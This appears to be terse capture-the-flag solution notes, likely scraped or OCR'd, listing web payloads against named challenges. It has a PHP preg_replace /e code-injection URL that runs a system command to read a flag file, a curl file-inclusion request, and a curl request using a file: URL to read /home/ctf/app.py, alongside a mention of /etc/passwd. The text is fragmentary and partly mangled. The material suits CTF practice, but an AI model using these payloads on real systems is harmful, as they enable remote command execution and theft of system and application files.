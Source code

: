 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion



File:/etc/passwd      File:/home/ctf/app.py

curl -X POST -H "Host: company.tld" --data "url=file:home/ctf/app.py" "http://34.141.113.155:32567/"              LFI  Ultra-Crawler
